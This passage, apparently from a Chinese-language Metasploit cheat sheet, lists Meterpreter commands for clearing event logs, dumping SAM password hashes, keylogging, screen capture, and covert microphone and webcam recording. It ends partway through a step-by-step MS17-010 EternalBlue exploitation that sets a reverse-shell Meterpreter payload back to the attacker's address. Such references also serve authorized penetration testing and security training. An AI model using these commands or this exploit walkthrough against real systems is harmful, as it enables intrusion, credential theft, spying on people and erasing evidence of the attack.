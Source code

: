    #### 网络命令
    *   `arp`: 显示目标 ARP 缓存.
    *   `ifconfig` / `ipconfig`: 显示网络接口信息.
    *   `netstat`: 显示网络连接.
    *   `portfwd add -l <本地端口> -p <远程端口> -r <远程IP>`: 创建端口转发.
    *   `route`: 查看和修改路由表.

    #### 系统命令
    *   `clearev`: 清除事件日志.
    *   `execute -f <程序> [-a <参数>]`: 执行程序.
    *   `getpid`: 显示 Meterpreter 当前所在进程的 PID.
    *   `getuid`: 显示 Meterpreter 当前运行的用户身份.
    *   `kill <PID>`: 终止指定 PID 的进程.
    *   `pkill <进程名>`: 按名称终止进程.
    *   `ps`: 列出正在运行的进程.
    *   `reboot`: 重启目标计算机.
    *   `shell`: 进入目标系统的标准命令行 Shell.
    *   `shutdown`: 关闭目标计算机.
    *   `sysinfo`: 获取目标系统信息.
    *   `getsystem`: 尝试提升到 SYSTEM 权限.

    #### 其他命令
    *   `hashdump`: 转储 SAM 数据库中的密码哈希.
    *   `idletime`: 显示用户空闲时间.
    *   `keyscan_start`: 开始键盘记录.
    *   `keyscan_dump`: 转储键盘记录缓冲区.
    *   `keyscan_stop`: 停止键盘记录.
    *   `screenshot`: 截取屏幕截图.
    *   `screenshare`: 实时查看远程桌面.
    *   `record_mic`: 录制麦克风音频.
    *   `webcam_list`: 列出可用的网络摄像头.
    *   `webcam_snap`: 从摄像头拍照.
    *   `webcam_stream`: 从摄像头播放视频流.

### 8. 特定漏洞利用示例

#### MS17-010
*   **描述**: SMBv1 远程代码执行漏洞.
*   **流程**:
    1.  **启动 MSF**: `msfconsole`
    2.  **(可选) 扫描漏洞**:
        ```
        use auxiliary/scanner/smb/smb_ms17_010
        set RHOSTS <Target_IP_Range>
        run
        ```
    3.  **选择利用模块**:
        ```
        use exploit/windows/smb/ms17_010_eternalblue
        # Or use exploit/windows/smb/eternalblue_doublepulsar if DoublePulsar needed/present
        ```
    4.  **设置参数**:
        ```
        set RHOSTS <Target_IP>
        set PAYLOAD windows/x64/meterpreter/reverse_tcp # Adjust x86/x64 as needed
        set LHOST <Your_IP>
        set LPORT 4444
        # Sometimes needed: set PROCESSINJECT explorer.exe
        ```